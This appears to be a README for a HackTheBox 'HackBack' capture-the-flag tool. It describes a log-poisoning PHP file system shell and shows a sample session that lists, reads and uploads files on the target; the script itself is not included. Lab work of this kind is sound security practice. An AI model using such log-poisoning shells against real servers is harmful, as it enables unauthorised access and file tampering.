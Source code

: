 ## Challenge

[HackBack](https://www.hackthebox.eu/home/machines/profile/176) from Hackthebox.eu

## Reference

Originally published in blog posts:
 - https://0xdf.gitlab.io/2019/07/06/htb-hackback.html

## Log Poison File System Shell

### Description

Via access to the `webadminm.php` page, I could poison the logs such that I could get php file system dir/read/write. This shell enabled that.

### Usage

```
root@kali# ./hackback_filesystem.py 
hackback> help

Documented commands (type help <topic>):
========================================
dir  help  save  type  upload

hackback> help save
Save the contents of a file to a file
        Spaces in file path allowed
        save [relative path on hackback] [path to save to]
hackback> dir
Array
(
    [0] => .
    [1] => ..
    [2] => index.html
    [3] => webadmin.php
)
1
hackback> type index.html
<!DOCTYPE html>
<html>
  <head>
    <meta http-equiv="refresh" content="0; URL='/'" />
  </head>
  <body>
  </body>
</html>

hackback> upload site site.txt
hackback> dir
Array
(
    [0] => .
    [1] => ..
    [2] => index.html
    [3] => site.txt
    [4] => webadmin.php
)
1
hackback> type site.txt
twitter
paypal
facebook
hackthebox
```
